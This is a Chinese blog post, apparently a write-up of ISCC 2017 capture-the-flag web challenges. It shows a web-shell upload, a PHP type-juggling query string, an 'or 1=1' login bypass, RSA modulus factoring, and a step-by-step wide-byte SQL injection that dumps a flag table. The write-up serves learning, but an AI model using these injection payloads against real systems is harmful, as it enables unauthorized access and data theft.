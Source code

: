 ```yaml
---
layout: post
title: "第十三周总结"
date: 2017-05-21 14:58:44
description: "周总结"
tag: 总结
---
```



## web100 WelcomeToMySQL   
终于知道为什么解析不了了啊哭
这个得用php5传，不然解析不了，传完之后连上菜刀，根据里面一个base.php里面的信息填数据库配置，也就是说flag在数据库里

## web150 自相矛盾     
好吧找到了原题...
构造：    

```
http://139.129.108.53:8083/web-09/index.php?iscc={%22bar1%22:%222017a%22,%22bar2%22:[[1],1,2,3,0],%22a2%22:[%22nudt%22,1,2,3,0]}&cat[0]=%00isccctf2017&cat[1][]=1111&d=1
```

## web150 一起来日站啊     
扫描得到/robots.txt，打开后得到

```
robots.txt 
User-agent: * 
Disallow: /21232f297a57a5a743894a0e4a801fc3/
Disallow: /api
```
访问

```
http://139.129.108.53:5090/web-04/21232f297a57a5a743894a0e4a801fc3/admin.php
```
到达后台，使用万能密码且Post方式提交，flag出来了但藏得很隐蔽but肉眼可见==


```
username=admin&password=1' or '1' = '1
```

## Basic100 说我作弊需要证据   
Alice的n：  

```
0x53a121a11e36d7a84dde3f5d73cf = 1696206139052948924304948333474767 = 38456719616722997 · 44106885765559411
```

Bob的n：
```
0x99122e61dc7bede74711185598c7 = 3104649130901425335933838103517383 =  49662237675630289 · 62515288803124247
```


小明的flag      

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 1 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 2 --+
http://139.129.108.53:6980/web-08/?id=-1%df%27 order by 3 --+    
Unknown column '3' in 'order clause'
```

```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),null  --+

http://139.129.108.53:6980/web-08/?id=-1%df%27 union select database(),database()  --+

```

## web robots
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --+     
```
article,flag
```
http://139.129.108.53:6980/web-08/?id=-1%df%27 union select 1,hex(group_concat(id,0x7e,thisisflag)) FROM .flag --+      
```
317E666C61673A7B34343162376661313631373330376265393633323236336134343937383731657D  
HEX-ASCII